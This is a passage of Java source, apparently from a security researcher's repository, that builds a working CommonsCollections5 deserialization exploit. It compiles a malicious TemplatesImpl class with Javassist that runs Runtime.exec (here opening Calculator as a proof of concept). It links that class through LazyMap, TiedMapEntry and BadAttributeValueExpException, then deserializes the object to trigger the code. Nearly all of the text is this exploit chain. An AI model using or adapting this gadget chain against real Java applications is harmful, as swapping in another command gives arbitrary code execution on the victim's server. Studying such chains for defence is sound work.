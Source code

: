 ```java
 */
public class CommonsCollections5Gadge2 {

    public static void CC5() throws CannotCompileException, NotFoundException, NoSuchFieldException, IllegalAccessException, IOException, ClassNotFoundException {
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass ctClass = pool.makeClass("Evil");
        ctClass.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        String shell = "java.lang.Runtime.getRuntime().exec(\"open -a /System/Applications/Calculator.app\");";
        ctClass.makeClassInitializer().insertBefore(shell);

        byte[] shellCode = ctClass.toBytecode();
        byte[][] targetCode = new byte[][]{shellCode};

        TemplatesImpl templates = new TemplatesImpl();
        Class clazz = templates.getClass();
        Field _name = clazz.getDeclaredField("_name");
        Field _bytecode = clazz.getDeclaredField("_bytecodes");
        Field _tfactory = clazz.getDeclaredField("_tfactory");
        _name.setAccessible(true);
        _bytecode.setAccessible(true);
        _tfactory.setAccessible(true);
        _name.set(templates, "h3rmesk1t");
        _bytecode.set(templates, targetCode);
        _tfactory.set(templates, new TransformerFactoryImpl());

        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templates})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

        Map hashMap = new HashMap();
        Map map = LazyMap.decorate(hashMap, chainedTransformer);
        TiedMapEntry tiedMapEntry = new TiedMapEntry(map, "h3rmesk1t");

        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException("h3rmesk1t");
        Class _class = Class.forName("javax.management.BadAttributeValueExpException");
        Field field = _class.getDeclaredField("val");
        field.setAccessible(true);
        field.set(badAttributeValueExpException, tiedMapEntry);

        try {
            // 序列化
            ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
            ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
            objectOutputStream.writeObject(badAttributeValueExpException);
            objectOutputStream.close();

            // 反序列化
            ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(byteArrayOutputStream.toByteArray());
            ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);
            objectInputStream.readObject();
            objectInputStream.close();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

```